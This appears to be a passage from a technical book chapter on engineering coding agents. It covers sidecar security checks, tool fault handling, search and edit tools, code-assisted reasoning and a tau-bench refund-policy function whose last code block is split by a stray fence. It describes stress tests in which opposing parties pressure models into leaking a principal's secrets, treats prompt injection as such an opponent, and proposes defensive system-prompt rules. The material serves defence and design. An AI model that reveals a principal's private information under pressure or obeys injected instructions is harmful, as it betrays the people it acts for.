**Speculative Execution: Making Security Checks "Invisible"**. This is precisely the effect of the Sidecar gating mechanism from Chapter 4 at the user experience level—Chapter 4 explained why critical operations should be reviewed by a Sidecar independent of the main context; this section focuses on how to make this review imperceptible to the user as a wait. The approach is to decouple "display" and "release" and run them in parallel: when the Agent is about to execute a tool call, the system simultaneously displays a progress hint on the interface (e.g., "Reading file `src/main.py`...") while running the security check in the background. A clarification is needed here regarding a commonly used analogy: it is different from CPU speculative execution—if the CPU guesses wrong, it must discard computed results and roll back state; here, the preliminary action is merely a **side-effect-free UI hint**, which changes no real state. If the check fails, no rollback is needed; the hint is simply replaced with "waiting for confirmation." In most cases, the security check completes before the user even notices, so the user feels no additional latency; only when a quick determination is impossible does the system actually pause and wait for confirmation. This is the highest state of Harness design: security without sacrificing user experience.

**Tool Orchestration: Fault Boundary Control**. Mature Coding Agents support parallel tool calls. The unique problem from the Harness perspective is **how faults propagate**: when one tool fails, which calls should be aborted and which should continue? The principle is that faults propagate only within the same batch of parallel calls, not up to the parent operation—for example, reading three files simultaneously, if one is not found, only that failure should be reported, not cancel the other two, and certainly not abort the entire task. This fine-grained fault boundary control avoids the fragile pattern of "one command failure aborting the entire task." The specific mechanisms for parallel calls, streaming parsing, and cascading aborts are detailed in the next section, "Implementation Tips."

The common characteristic of these patterns is: **they solve not the problem of "insufficient model capability," but the problem of "system robustness under boundary conditions."** Models may become increasingly powerful, but networks can disconnect, processes can hang, and users can perform unexpected actions—this is where the value of the Harness lies.

**Whom Does the Agent Serve: Loyalty Under Multi-Party Delegation.**

(This section is an extension of the general agent security topic—principal loyalty—into the Coding Agent scenario. It is somewhat loosely connected to the main thread of reliability engineering in this section; readers may choose to read it as needed.) The security mechanisms discussed earlier prevent "commands from being executed maliciously." There is another, more subtle security issue: **whose side is the Agent actually on**. Today's models are trained with a simple default principle: "whoever is talking to me, I will try my best to help them." But real-world Agents often find themselves in **multi-party delegation** situations: they act on behalf of their principal while simultaneously dealing with third parties who have conflicting interests. An Agent negotiating a price for you, an Agent pre-screening resumes for a company, an Agent representing you in customer service—the person on the other side is not a "user in need of help," but a **negotiating opponent**. In such cases, "help whoever speaks" is a dangerous default setting—the opponent only needs to speak to potentially turn the Agent against you.

Putting cutting-edge models into this situation and testing them reveals a clear **loyalty spectrum**, with both ends failing[^ch5-1]. One end is **too honest**: directly revealing the principal's private information (e.g., "our bottom line is 12,000") to the opponent, even admitting "this information exists" when pressed; conceding after a few rounds of repeated pressure. The other end is **too suspicious**: to avoid leaking information, it refuses even the principal's legitimate requests, doing nothing, and thus failing to complete the task. A dozen cutting-edge models show a clear polarization on this issue—some can keep the "betrayal rate" below 20%, while others have alarmingly high rates. The real difficulty is that these two failures are a seesaw: plugging leaks often leads to excessive refusal, and vice versa; it is hard to achieve both.

This perspective is particularly relevant to Coding Agents and Agent Harnesses. The "opponents" a Coding Agent faces daily are everywhere: untrusted content read from a repository, output from a tool, instructions from a third-party MCP server—**prompt injection is essentially an "opponent" trying to turn your Agent against you** (Chapters 2 and 4). Therefore, the Harness layer must explicitly nail down the "object of loyalty": the instructions of the principal (the deployer and authorized user) have the highest priority, while all content from external interacting parties is by default downgraded to "data that can be referenced but does not have the force of instructions." In terms of system prompts, an effective **loyalty code of conduct** is: protect the principal's private information and even its "existence"; when refusing, do not list the refused items one by one (that itself is a leak); private bottom lines are not the same as public positions (a bottom line of 12,000 does not mean it can be stated, nor does it mean 12,000 is acceptable); conditional concession authority should be held back, not proactively revealed; only execute the principal's clear and specific instructions; withstand repeated pressure, and do not treat "being asked many times" as a reason to concede. Writing these rules into the system prompt can significantly reduce the probability of "being turned"—essentially, this is using the Harness to supplement the model with a stance it lacks by default: **absolute loyalty to the principal, and prudence towards external interacting parties**.

[^ch5-1]: The complete evaluation of this loyalty spectrum and code of conduct can be found in Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**When AI-Written Code Itself Is Untrustworthy: Moving the Trust Boundary Downward.**

(This section is an extension of the previous loyalty discussion—moving constraints from "hoping the Agent will behave" down to enforcement at the data layer. It is also more general agent security and optional reading.) The previous loyalty code of conduct makes the Agent **more likely** to follow the rules, but "more likely" is not enough for high-risk data operations. Following this dissatisfaction leads to a more radical stance[^ch5-2]. For the past thirty years, the integrity boundary of software has been at the **application layer**—determined by handler code who can operate, what values are legal, and what state transitions are allowed, with the database unconditionally trusting the data written by this code. The premise of this arrangement is that the code at the boundary is written, reviewed, and maintained by **responsible people**. AI has broken this premise twice: first, LLM-generated handlers often miss the permission and integrity checks that human authors would silently carry across functions; second, autonomous Agents directly operate on production data, and a single prompt injection or hallucination can corrupt or leak everything their credentials can access.

The mainstream response is to **reinforce that untrustworthy layer**—using constitutional principles to guide generation, linters to check structure, and contracts to monitor Agent actions. All of these make AI-written code "more likely" to follow the rules, but none change **which layer is ultimately trusted**. A more radical approach is to do the opposite: **simply treat the application layer as untrustworthy and push the enforcement of data invariants down below it** (which can be called Permission-Embedded Data Objects). Each data entity carries declarative permission rules, validators, and consequence statements within a **human-reviewed schema**, and a three-level runtime pipeline enforces them on **every write**. The key is a unified primitive—the **access context** attached to every operation: a regenerated handler runs with the permissions of the user it serves, while an autonomous Agent runs with its own restricted identity (scoped principal)—this directly connects to the earlier "loyalty" discussion: rather than just hoping the Agent is loyal, architecturally downgrade it to a permission-limited entity, so that even if it is turned, it cannot cross the line.The costs and benefits of this approach are clear-cut. When comparing this mechanism against several mainstream solutions on the same set of prompts, it achieves **zero violations of the declared invariants** (a clean zero). Under the same prompts, bare SQL, LLM-written checks, constitutional prompts, and action boundary interceptors all miss violations anywhere from several to dozens of times. This "zero" is precisely what a structural mechanism should deliver—it's not "more likely to be correct," but "impossible to be wrong." The cost is merely about 2 extra milliseconds per write in the pipeline. Of course, this guarantee comes with conditions: the schema must truly capture all desired invariants, and the deployment must block all paths where untrusted layers could bypass storage and connect directly to the database (achieved through process isolation, network sidecars, or capability handles). For Coding Agents, this provides an important architectural principle: **when both the code writer and the code runner may be untrusted, truly reliable constraints cannot reside in the generated code, but must be placed in the human-reviewed foundation beneath it**—this is the ultimate form of the "constraints over guidance" principle from Chapter 1, applied at the data layer.

[^ch5-2]: This design and evaluation of "moving the trust boundary below the application layer" (including a complete comparison of violation counts across different solutions) can be found in Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (forthcoming).

### Implementation Tips for Coding Agents

The workflow described above is the ideal state. To make it work in practice, several specific implementation techniques are needed—to improve response speed and reduce context consumption while maintaining thinking quality. These are concrete applications of the general Agent techniques discussed in Chapters 2 and 4, applied to the programming domain.

**Parallel Tool Calls, Streaming Execution, and Cascading Abort.**

Traditional Agent implementations often use a serial mode: generate a tool call, execute it, get the result, then decide the next step. This strict queuing wastes a lot of time.

Modern Coding Agents should fully leverage streaming responses: Chapter 2 introduced this mechanism when discussing model output order—once the parameters of the first tool call are fully generated and pass validation, execution can begin immediately, without waiting for the model to generate subsequent tool calls. For example, if the model needs to output three tool calls in one inference—search code, check configuration files, and read logs—the first call's parameters can start executing as soon as they are fully generated and validated, overlapping with the generation of the latter two calls. Independent calls can also be executed in parallel rather than queued. This overlapping execution significantly reduces end-to-end latency, making the Agent's responses more agile.

The flip side of parallel execution is fault handling. Each tool definition should declare whether it supports concurrent execution (default is no, fail-safe). When a call fails, a cascading abort mechanism terminates other calls started in the same batch that depend on its result, but does not affect independent calls or the parent operation—this is a concrete implementation of the "fault boundary control" principle from the Harness perspective in the previous section.

**Fine-Grained Context Management.**

The fundamental challenge for Coding Agents is that codebases are usually large, but the model's context window is limited. Even if advanced models claim to support millions of tokens, stuffing the entire codebase into the context is neither economical nor necessary. Intelligent context management needs to operate at multiple levels.

At the file reading level, the Agent should not always read the entire file. For large files, the tool should support reading specific line ranges—for example, only reading lines 100 to 150, rather than loading a file with thousands of lines. More importantly, when returning content, line numbers should be attached—each line of code is prefixed with its actual line number. This seemingly simple design brings great value: the model can precisely reference "line 42 of `src/main.py`," reducing ambiguity and making subsequent edit operations more reliable.

At the command execution level, handling terminal output also requires care. Compilation or testing can produce thousands of lines of output. If all of it is injected into the context, the budget is quickly exhausted. The long output truncation and persistence mechanism introduced in Chapter 4 is widely applied here: retain the first few lines of output (usually containing error context) and the last few lines (usually containing error summaries), replace the middle with a single line of prompt, and note that the complete output has been saved to a temporary file for on-demand viewing.

**Dynamic Injection of Environment Information.**

This is a concentrated manifestation of the Agent status bar technique from Chapter 2 in Coding Agents. Unlike general Agents, Coding Agents are highly dependent on the state of the execution environment. Before each inference, the following key environment information should be injected at the end of the context in the form of an Agent status bar:

- **Current working directory**: ensures path references are correct
- **Git branch**: knows whether working on the main branch or a feature branch
- **Recent commit history**: understands the project's evolution
- **Overview of unstaged and staged changes**: knows what modifications have been made

This information should not be hardcoded into static system prompts—that would destroy KV Cache efficiency—but should be dynamically generated and injected as an appended Agent status bar. In this way, the Agent gains "environmental awareness," with each decision based on an accurate understanding of the current state, rather than outdated assumptions.

**State Persistence in the Command Execution Environment.**

When interacting with code, many operations depend on environment state: changing directories, activating virtual environments, setting environment variables, starting background services. If each command is executed in a fresh shell, all this state is lost—the Agent just used `cd` to navigate to the project directory, but the next command is back at the root directory, forcing it to repeat the same setup. Worse, the effects of some operations (like activating a Python virtual environment) are only valid within the current shell session and cannot be passed across sessions.

Therefore, a persistent terminal session should be maintained, created when the Agent starts and kept active throughout the entire interaction. Each command is executed in this shared terminal, preserving the working directory, environment variables, and session state. This design is more aligned with the work habits of human developers—we usually work in a long-running terminal window. Of course, the Agent should also retain the ability to start isolated terminals to support parallel tasks, but the persistent session should be the default mode.

**Instant Syntax Feedback Mechanism.**

This once again demonstrates the value of the Agent status bar technique. After the Agent modifies code, it should not wait for the user to explicitly request testing before checking syntax. A more efficient approach is: as soon as the file write operation is complete, the tool layer automatically runs the corresponding linter or syntax checker, presenting the results as part of the tool's return value to the Agent. If a syntax error is detected, the Agent sees the detailed error information immediately in the next inference round—just like a programmer typing a wrong parenthesis in an IDE, and the editor immediately draws a red line as a reminder. This instant feedback mechanism significantly reduces the cost of error fixing, because the Agent can correct the error at the moment it is introduced, without waiting until running tests to discover the problem.

These five implementation techniques—parallelism and streaming, context management, environmental awareness, state persistence, and instant feedback—together form the technical foundation of an efficient Coding Agent. They are not isolated optimization points, but mutually reinforcing design decisions, all pointing toward a single goal: enabling the Agent to work as smoothly as an experienced developer.

### Search Tools in Coding Agents

Locating relevant code in a large codebase is the starting point for a Coding Agent's work. Figure 5-3 compares several complementary search tools, illustrating how a mature Coding Agent should choose retrieval methods based on the nature of the task.



**Regex Content Matching** (grep/ripgrep): The most traditional search method, scanning file contents line by line for pattern matches. When the Agent knows the specific text to find (function names, variable names, error messages), it can quickly and accurately locate all occurrences. The powerful expressive ability of regular expressions (a syntax for describing text patterns using special symbols, e.g., `def handle.*` matches all function definitions starting with `handle`) can capture complex patterns, searching not only for literal text but also for code snippets conforming to specific structures. In practice, file type filtering (search only Python files) and path pattern filtering (exclude test directories) should also be supported to reduce noise. The fundamental limitation is that it can only find textually matching content, unable to understand semantics—searching for "user authentication" cannot find functions that handle login logic but don't contain the word "authentication."

**Filename Pattern Matching** (glob): Ignores file content, only searches the file system's path structure for files matching a pattern. For example, `**/*.test.ts` recursively finds all TypeScript test files, `src/components/**/Button.tsx` searches for Button.tsx at any depth under components. It is much faster than content search (no need to open and read files) and is the Agent's first step in exploring the project structure—quickly establishing the project's organizational framework by scanning the entire file system.

**Semantic Code Search**: Unlike the first two exact matching methods, it attempts to understand the "meaning" of the query and the code. It needs to solve two key problems:

- **Structure-Aware Chunking**: Code has strict syntactic structure and should be split by complete semantic units like functions, classes, and methods, rather than blindly cutting by a fixed number of characters.
- **Hybrid Retrieval** (Chapter 3 details this technology stack): Vector embeddings (dense embeddings) excel at finding semantically similar code with different wording (e.g., searching for "verify user identity" can find a function named `check_credentials`), while keyword matching (BM25, a classic retrieval algorithm based on term frequency and document length) excels at precisely matching function and variable names. The two run in parallel, and the results are merged and sorted by a reranker (a cross-encoder that performs fine-grained relevance ranking on candidate results), providing complementary coverage.

Semantic search is particularly suitable for exploratory tasks, such as finding code related to "interacting with the database" or "handling user input validation" in an unfamiliar codebase.

However, there is a clear debate in the industry about whether it is worth building embedding indices for semantic search. Terminal-based Agents like Claude Code deliberately **do not build embedding indices**, relying purely on agentic grep + glob for on-the-fly retrieval—this avoids maintaining indices that become stale as the code evolves, eliminates the entire indexing infrastructure, and avoids the risk of sending code embeddings to third-party services. IDE-based tools like Cursor take the opposite approach: they are willing to pay the cost of building indices for **cross-file semantic recall**, using embedding indices to quickly find semantically related but differently worded snippets in large codebases. The trade-off between the two routes essentially boils down to weighing "the cost of infrastructure and data egress" against "the benefit of cross-file semantic recall."

**Symbol-Level Definition and Reference Lookup**: Based on the IDE's "go to definition" and "find all references" capabilities (LSP, or Language Server Protocol—a standard protocol for communication between editors and language analysis engines), it can distinguish between the definition and calls of symbols with the same name—for example, it knows that `authenticate` on line 42 is a function definition, while on line 189 it is a call, whereas text search can only find all lines containing that string. This is especially critical for code refactoring—when renaming a function, you cannot rely solely on text search (the function name might appear in comments or strings); you must use symbol search to precisely locate the definition and all actual call sites.

These four search methods form a complementary toolbox, often used in combination in practice: first use semantic search to find relevant modules, then use regex matching to precisely locate specific lines of code, and finally use symbol search to trace the call chain—a progressive strategy "from coarse to fine, from semantics to syntax."

### File Editing Tools in Coding Agents

The difficulty of file editing lies not in the operation itself, but in how to efficiently and reliably tell the system "what to change and how to change it" using an LLM. Figure 5-4 compares five file editing schemes, illustrating the fundamental tension between human language expression and machine-precise execution.



**Diff Description + Apply Model**: The model does not directly specify how to edit the file; instead, it generates a change description—which can be a diff text similar to git diff (the format output by the `git diff` command, showing "which lines were deleted and which were added"), or a code skeleton with omission markers (using comments like "remain unchanged here" to skip unmodified parts). This description is then handed to a specialized "Apply Model"—usually another, smaller, faster LLM—responsible for merging it with the original file to produce the complete new file. This separation of concerns allows the main model to focus on high-level code logic and the apply model to focus on low-level text operations. The fragility of a naive implementation lies in the merge step: when there are minor discrepancies between the change description and the actual file code, it needs to determine if they refer to the same location; when there are multiple similar code snippets, it might merge into the wrong place. Cursor is a representative of the continuous evolution of this approach: the main model outputs a code skeleton with omission markers, a specially trained fast-apply small model rewrites the complete file, and speculative decoding (using the original file content as a draft for parallel verification) pushes the merge speed to thousands of tokens per second—engineering investment has bought reliability and speed for this approach.

**Old String → New String**: The approach adopted by Claude Code. The model provides an old string (the original text to be replaced) and a new string (the replacement text), and the framework performs a simple string find-and-replace. The advantage is predictability and transparency—if the old string exists and is unique in the file, it succeeds; otherwise, it fails. There is no ambiguity. The cost is that deleting large blocks of code requires outputting all the original content in full; a single character deviation causes the match to fail. When the same code appears multiple times, a longer context must be provided to disambiguate.

**Line Number Targeting** (Old Line Numbers → New String): The model specifies "delete lines X to Y, insert new content." Line numbers are precise and unambiguous, and deleting large blocks requires only two numbers. However, the model is prone to errors when "counting" line numbers, especially for very long files. In practice, this is mitigated by adding line number annotations to each line when reading the file, but subsequent line numbers change after each edit, limiting the parallelism of multiple edits.

**Vim-like Edit Commands**: Borrowing from the Vim editor's command system, supporting rich operations like copy, cut, and paste. Very efficient for restructuring code (moving a function from one place to another). However, the command syntax has a significant learning burden; the strongest models can use it well, but smaller models have a noticeably higher error rate.

**String Start + End Matching** (Old String Start + End → New String): This can be seen as an improvement over the old string replacement scheme. The model does not need to output the complete old string; it only needs to provide the first few lines and the last few lines of the content to be deleted, omitting the middle part. The framework locates the replacement area by matching this start and end pair, as long as this "start+end" combination is unique in the file. This scheme combines the reliability of text replacement with the efficiency of the line number approach—when deleting large blocks of code, there is no need to output hundreds of lines of original code, only the boundaries need to be shown. At the same time, because it is still based on content matching rather than abstract line numbers, the risk of the model making errors is relatively low.**Practical Advice.** Overall, mainstream Coding Agents each have their own representatives on two paths: Claude Code adopts the "old string to new string" approach—prioritizing reliability, simple to implement, and requiring no additional model; Cursor, on the other hand, has taken the Apply Model route to its extreme—investing in the training and inference of a dedicated fast-apply model in exchange for higher editing throughput. For building your own Agent, the "old string to new string" approach is the safest starting point; when dealing with large-scale edits, "string head/tail matching" is a more economical compromise; the line-number approach is only reliable in scenarios with deep IDE integration (where the editor maintains a real-time line-number mapping and can immediately re-supply the model after each edit); otherwise, it is prone to failure due to line-number drift.

## Code: The Meta-Capability of a General Agent

The previous section demonstrated how to build a reliable Coding Agent—from architectural design to tool implementation to harness engineering. But the value of code generation extends far beyond just writing programs.

> **What is a "meta-capability"?** An ordinary capability is an Agent's ability to do a specific thing—answer a question, call a certain API, generate a piece of text. A **meta-capability** is an ability that "can create other abilities": the Agent uses it to write new tools, new constraints, and new forms of expression on the fly to accomplish a task, without needing to have all capabilities pre-built. Code generation is precisely such a meta-capability—it is precise, executable, and composable, allowing it to produce new tools (scripts, API call sequences), new constraints (assertions, validation rules), and new forms of expression (HTML forms, PPTs, video frames).

For this reason, the role code plays in an Agent system goes far beyond "writing programs." The next six sections will each demonstrate six directions in which this meta-capability can be applied beyond programming: (1) Thinking Tools—using code instead of natural language for rigorous reasoning; (2) Business Rule Constraints—using code to solidify policies and avoid model hallucinations; (3) Multimedia Generation—using code to generate PPTs/videos/visualizations; (4) System Adapters—using code to connect heterogeneous APIs; (5) Generative UI—using code to dynamically generate forms and interfaces; (6) Bootstrapping—using code to create new Agents.

These six directions are not a parallel list but are organized from the inside out based on the "object of the meta-capability":

1.  **Thinking Itself**—using code to replace error-prone natural language reasoning (Thinking Tools);
2.  **Business Rules**—encoding vague policies into executable constraints (Business Rule Constraints);
3.  **Content Presentation**—generating PPTs, videos, and visualization artifacts (Multimedia Generation);
4.  **System Interfaces**—bridging heterogeneous APIs, automatically adapting to data format evolution (System Adapters);
5.  **User Interfaces**—dynamically constructing forms and interactive interfaces (Generative UI);
6.  **The Agent Itself**—using code to create new Agents, forming a bootstrap (distinct from the "self-evolution" in Chapter 8 that does not change weights).

Reading along this "inside-out, ultimately returning to itself" thread will make it clearer to see the unified value of code as a meta-capability. Creating new tools on demand is a further extension of this meta-capability, which will be expanded upon in Chapter 8.

### Code as a Thinking Tool

LLMs perform remarkably well in natural language understanding and generation, but they have fundamental shortcomings in precise calculation, symbolic manipulation, or strict logical deduction. The reason is that the model's thinking is inherently probabilistic and approximate, whereas mathematical and logical problems require deterministic, precise answers. A specific comparison illustrates this:

```
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                           math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                        phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                           both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                  only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong    → print(only_phys)  # 8 ✓
```

Let the LLM be responsible for understanding the problem and writing the code, and let the code interpreter be responsible for precise calculation—this division of labor lets each play to its strengths.

Stephen Wolfram, the creator of Mathematica, offered a profound insight on this. Before LLMs existed, there were already systems capable of precise mathematical computation—they worked using **Symbolic Computation**, i.e., processing expressions using mathematical symbols rather than approximate numerical values. For example, a regular calculator would compute $\sqrt{2}$ as 1.414, but a symbolic computation system would keep the exact form $\sqrt{2}$, only converting to a decimal when necessary. Wolfram Alpha, created by Wolfram, is such a system: users input a math problem, and it returns an exact answer. However, its natural language understanding is quite fragile and its coverage is narrow—it relies on a built-in grammar parser that can only recognize a limited set of phrasings; a slight change in phrasing could cause parsing to fail, and it certainly cannot handle open-domain multi-step reasoning. LLMs perfectly fill this gap—they excel at understanding various natural language expressions but are not good at precise calculation. The new collaborative model is: let the LLM be responsible for understanding the user's natural language question, identifying the mathematical or logical structure within it, and translating it into a formal language (such as the Mathematica language or Python's SymPy library); then hand it over to a dedicated symbolic computation engine or constraint solver for execution to obtain precise results.

> **Experiment 5-1 ★★: Using Code Generation Tools to Improve Mathematical Problem-Solving Ability**
>
> **Experiment Goal**: Verify the accuracy improvement of an Agent's mathematical thinking when assisted by a Code Interpreter.
>
> **Technical Approach**: Equip the Agent with a Python sandbox containing mathematical libraries like sympy, numpy, and scipy. When the Agent encounters a math problem, it formalizes it into Python code: sympy for symbolic computation (calculus, equation solving), scipy for numerical optimization, numpy for matrix operations. The generated code is executed in the sandbox to return precise results.
>
> **Acceptance Criteria**: Evaluate using AIME-style problems (modeled after the American Invitational Mathematics Examination). Compare the accuracy of pure chain-of-thought reasoning versus code-assisted reasoning, requiring the code-assisted mode to be significantly higher. Check whether the code correctly uses the mathematical libraries and whether the solution process is logically clear.
>

> **Experiment 5-2 ★★: Using Code Generation Tools to Improve Logical Reasoning Ability**
>
> **Experiment Goal**: Assess the Agent's ability to perform logical reasoning with the help of constraint-solving code.
>
> **Technical Approach**: Equip the Agent with a Code Interpreter containing the python-constraint library. The Agent translates logic puzzles (such as Knights and Knaves problems) into formal constraint definitions: identify all variables (each islander's identity), constraints (derivations like "knights tell the truth"), define the constraints, and call the solver to search for a solution satisfying all constraints.
>
> **Acceptance Criteria**: Evaluate using the [K&K Puzzle dataset](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). The code-assisted mode should achieve a solution accuracy of over 90%, significantly higher than the pure thinking mode.
>

This experiment also reveals a more general pattern: there is a trade-off relationship between the model and the harness. When the model is strong enough, the harness can be thinner—the model can reason correctly on its own, and the gain from the code solver narrows. When the model is not strong enough, more work must be done in the harness—offloading key logical reasoning to code and constraint solvers to guarantee correctness. For this reason, this experiment deliberately uses a weaker model to amplify this contrast: with a weaker model, the pure thinking mode will frequently make calculation errors, while code assistance can significantly boost accuracy; switching to a sufficiently strong reasoning model, pure thinking can often solve all the puzzles, and the gain from code assistance converges to near zero. Therefore, how thick the harness should be depends on the capability boundary of the model you are using—this is also a premise easily overlooked when evaluating an Agent technology: the same harness, paired with models of different capabilities, can yield vastly different conclusions.

### Code as a Constraint for Business Rules

This section is a direct response to the earlier Harness Engineering. One of the core principles of the Harness is "Constraints: Encoded, Not Documented"—transforming rules from natural language documentation into executable code, making them mandatory constraints on system behavior rather than advisory guidelines. Code generation enables the Agent to autonomously complete this transformation process.

Business rules, workflows, and decision logic, if only described in natural language, are often full of ambiguity. What constitutes a "reasonable refund request"? What counts as an "emergency"? The boundaries of these concepts are difficult to define in natural language—"refundable within 7 days of purchase" seems clear, but does "7 days" mean calendar days or business days? Does "purchase" mean the time of order placement or the time of shipment? In contrast, code provides an unambiguous, executable form of knowledge representation—it either runs successfully or throws an error; there is no ambiguity.

**Precisely Expressing Complex Business Rules.**

**Natural Language Rules vs. Codified Rules: Complementary, Not Substitutive**

The advantage of writing rules in the system prompt: the model can **explain policies** to users based on the rules; it can **find workarounds** based on the rules (e.g., "rebook instead of cancel"); it can make a preliminary feasibility judgment before calling a tool.

The advantage of codifying rules as validation tools: the **precision and unambiguity** of code logic—there will be no "misunderstanding"; the **determinism** of code execution—the same input always produces the same output; particularly suitable for **complex rule combinations**—multi-condition boolean combinations, time calculations, cross-data-source validation.

In practice, they should be used together: the system prompt contains natural language rules for understanding and communication, while key decision points are equipped with codified validation tools acting as "gatekeepers" to ensure compliance.

The true value of codified rules is not in optimizing token efficiency, but in **preventing irreversible erroneous operations**—canceling an order, transferring funds, deleting data—these operations, once executed, cannot be undone. Codified validation sets up a final line of defense before the operation. The value of this safety guarantee far outweighs its implementation cost.

**Merging Validation and Execution: Checklist Guides Thinking, Truth-Value Validation Guards the Gate**

Instead of designing a separate validation tool, it is better to have the execution tool perform validation internally first. Take the airline cancellation policy from τ-bench (tau-bench, a benchmark simulating airline and e-commerce customer service scenarios, specifically designed to evaluate an Agent's tool-calling and policy-compliance abilities) as an example:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database truth values):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one; the expected_* parameters are
    for stating your judgment basis, provided for server-side comparison and audit, and do not affect the policy ruling.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the truth value, to detect the model's erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)```python
    return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

The value of this design should be understood on two levels.

**First level: parameters as a thinking checklist.** The tool description lists the complete cancellation policy and requires the model to "query order details and check each condition one by one before calling"; the optional `expected_*` parameters further prompt the model to explicitly write out its own reasoning. To fill in these parameters, the model must first call the query tool to get order details and verify each condition one by one — the process of filling in parameters is essentially a **mandatory checklist**. When the model finds that the cabin class is economy and insurance has not been purchased, it is likely to notice rule 5 during the preparation for the call, and thus **will not initiate the call at all**, instead directly telling the user "Economy class without insurance cannot be cancelled. Consider purchasing insurance before cancelling or changing your booking." The value of this level lies in guiding thinking and reducing invalid calls; however, it does not bear safety responsibility — the `expected_*` parameters are merely the model's self-statement, and the server never treats them as facts.

